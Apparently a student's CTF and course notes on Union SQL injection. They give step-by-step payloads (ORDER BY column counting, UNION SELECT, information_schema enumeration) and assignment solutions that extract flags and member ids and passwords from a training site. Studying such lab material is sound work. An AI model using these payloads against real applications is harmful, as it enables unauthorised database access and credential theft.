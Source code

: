 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>
a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
a. SQL Injection 1
* Find out the point of the SQL Injection = ad%' and 1=1 #
* Find out the number of columns = ad%' order by 4 #
* Find out the number of print column locations = ad%' union select 1,2,3,4 #
* Find DB name = ad%' union select database(),2,3,4 #  => 	sqli_1
* Find table name = ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
* Find column name = ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
* Find data = ad%' union select flag, 2, 3, 4 from flag_table #

b. SQL Injection 
* The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
* The number of columns? = admin' order by 6 #
* location? = admin' union select 1,2,3,4,5,6 #   => only showing "6"
* database? = admin' union select 1,2,3,4,5,database() #    => sqli_5
* table? = admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     => flag_honey
* column name? = admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #   => flag
* data? = admin' union select 1,2,3,4,5,flag from flag_honey #    => 	kkkkkkk_Not Here!
* admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
  - Find hidden information (https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
* admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
* admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
* admin' union select 1,2,3,4,5,group_concat(flag) from secret #

4. Web development
- mypage
